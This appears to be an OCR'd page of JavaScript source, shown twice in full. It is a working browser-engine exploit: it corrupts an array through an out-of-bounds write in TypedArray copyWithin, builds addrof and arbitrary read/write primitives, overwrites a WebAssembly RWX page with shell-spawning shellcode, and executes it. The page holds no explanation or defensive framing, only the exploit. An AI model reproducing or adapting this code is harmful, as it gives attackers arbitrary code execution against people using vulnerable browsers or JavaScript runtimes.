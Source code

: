 ```js
var buf = new ArrayBuffer(8);
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

function ftoi(val) {
	f64_buf[0] = val;
	return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n);
}

function itof(val) {
	u64_buf[0] = Number(val & 0xffffffffn);
	u64_buf[1] = Number(val >> 32n);
	return f64_buf[0];
}

function hprint(val) {
	console.log("0x"+val.toString(16));
}

function gc() {
	for (let i = 0; i < 100; i++) {
		new ArrayBuffer(0x100000);
	}
}

function trigger() {
	var arr = new Uint8Array(8);
	var normal_arr = [1.1];
	var object = {};
	var object_arr = [object];
	arr[0] = 0 ;
	arr[1] = 1 ;
	arr[2] = 2 ;
	arr[3] = 3 ;
	arr[4] = 4 ; 
	arr[5] = 5 ;
	arr[6] = 6 ;
	arr[7] = 7 ;
	arr.copyWithin(5,1,2,8); //bug element size migrates to 8 byte value leading to OOB write.
	console.log(arr.length);
	hprint(arr[104]);
	arr[104] = 0xf8;
	console.log(normal_arr.length);
	return normal_arr;
}

gc();
var corrupted_array = trigger();
var obj_arr = [{},{}];
var oob_array = [1.1,2.2,3.3];
if(corrupted_array.length != 0xf8/2) {
	throw new Error("Failed");
}
let float_arr_map = ftoi(corrupted_array[1])&0xffffffffn;
let float_arr_properties = (ftoi(corrupted_array[1])&0xffffffff00000000n) >> ( 32n );
let obj_arr_map = (ftoi(corrupted_array[24])&0xffffffff00000000n) >> ( 32n );
let obj_arr_properties = ftoi(corrupted_array[25])&0xffffffffn;
let fake_addrof_map = ( float_arr_map << 32n ) + ( ftoi(corrupted_array[24])&0xffffffffn );
let fake_addrof_properties_intact = ( ftoi(corrupted_array[25])&0xffffffff00000000n ) + ( float_arr_properties ) 

function addrof(object) {
	obj_arr[0] = object;
	corrupted_array[24] = itof(fake_addrof_map);
	corrupted_array[25] = itof(fake_addrof_properties_intact);
	let addr = ftoi(obj_arr[0]);
	corrupted_array[24] = itof( (obj_arr_map << 32n ) + (ftoi(corrupted_array[24])&0xffffffffn) )
	corrupted_array[25] = itof( (ftoi(corrupted_array[25])&0xffffffff00000000n) + (obj_arr_properties) )
	return addr;
}

function arbread(address) {
	corrupted_array[32] = itof(address);
	return ftoi(oob_array[0]);
}

function arbwrite(address,what) {
	corrupted_array[32] = itof(address);
	oob_array[0] = itof(what);
}

var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f = wasm_instance.exports.main;

let wasm_addr = addrof(wasm_instance);
let rwx_page = arbread(wasm_addr+0x60n);
hprint(rwx_page);
hprint(wasm_addr);

let buff = new ArrayBuffer(0x100);
let dataview = new DataView(buff);
let buff_addr = addrof(buff);
let backing_store_buf_addr = buff_addr + 0xcn;
arbwrite(backing_store_buf_addr,rwx_page);
let shellcode = [0xfe58426a, 0x529948c4, 0x622fbf48, 0x2f2f6e69, 0x54576873 ,0xd089495e, 0x0fd28949, 0x5];

for (let i = 0; i < shellcode.length ; i++) {
	dataview.setUint32(4*i,shellcode[i],true);
}
//%SystemBreak();
f();
```
var buf = new ArrayBuffer(8);
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

function ftoi(val) {
	f64_buf[0] = val;
	return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n);
}

function itof(val) {
	u64_buf[0] = Number(val & 0xffffffffn);
	u64_buf[1] = Number(val >> 32n);
	return f64_buf[0];
}

function hprint(val) {
	console.log("0x"+val.toString(16));
}

function gc() {
	for (let i = 0; i < 100; i++) {
		new ArrayBuffer(0x100000);
	}
}

function trigger() {
	var arr = new Uint8Array(8);
	var normal_arr = [1.1];
	var object = {};
	var object_arr = [object];
	arr[0] = 0 ;
	arr[1] = 1 ;
	arr[2] = 2 ;
	arr[3] = 3 ;
	arr[4] = 4 ; 
	arr[5] = 5 ;
	arr[6] = 6 ;
	arr[7] = 7 ;
	arr.copyWithin(5,1,2,8); //bug element size migrates to 8 byte value leading to OOB write.
	console.log(arr.length);
	hprint(arr[104]);
	arr[104] = 0xf8;
	console.log(normal_arr.length);
	return normal_arr;
}

gc();
var corrupted_array = trigger();
var obj_arr = [{},{}];
var oob_array = [1.1,2.2,3.3];
if(corrupted_array.length != 0xf8/2) {
	throw new Error("Failed");
}
let float_arr_map = ftoi(corrupted_array[1])&0xffffffffn;
let float_arr_properties = (ftoi(corrupted_array[1])&0xffffffff00000000n) >> ( 32n );
let obj_arr_map = (ftoi(corrupted_array[24])&0xffffffff00000000n) >> ( 32n );
let obj_arr_properties = ftoi(corrupted_array[25])&0xffffffffn;
let fake_addrof_map = ( float_arr_map << 32n ) + ( ftoi(corrupted_array[24])&0xffffffffn );
let fake_addrof_properties_intact = ( ftoi(corrupted_array[25])&0xffffffff00000000n ) + ( float_arr_properties ) 

function addrof(object) {
	obj_arr[0] = object;
	corrupted_array[24] = itof(fake_addrof_map);
	corrupted_array[25] = itof(fake_addrof_properties_intact);
	let addr = ftoi(obj_arr[0]);
	corrupted_array[24] = itof( (obj_arr_map << 32n ) + (ftoi(corrupted_array[24])&0xffffffffn) )
	corrupted_array[25] = itof( (ftoi(corrupted_array[25])&0xffffffff00000000n) + (obj_arr_properties) )
	return addr;
}

function arbread(address) {
	corrupted_array[32] = itof(address);
	return ftoi(oob_array[0]);
}

function arbwrite(address,what) {
	corrupted_array[32] = itof(address);
	oob_array[0] = itof(what);
}

var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f = wasm_instance.exports.main;

let wasm_addr = addrof(wasm_instance);
let rwx_page = arbread(wasm_addr+0x60n);
hprint(rwx_page);
hprint(wasm_addr);

let buff = new ArrayBuffer(0x100);
let dataview = new DataView(buff);
let buff_addr = addrof(buff);
let backing_store_buf_addr = buff_addr + 0xcn;
arbwrite(backing_store_buf_addr,rwx_page);
let shellcode = [0xfe58426a, 0x529948c4, 0x622fbf48, 0x2f2f6e69, 0x54576873 ,0xd089495e, 0x0fd28949, 0x5];

for (let i = 0; i < shellcode.length ; i++) {
	dataview.setUint32(4*i,shellcode[i],true);
}
//%SystemBreak();
f();
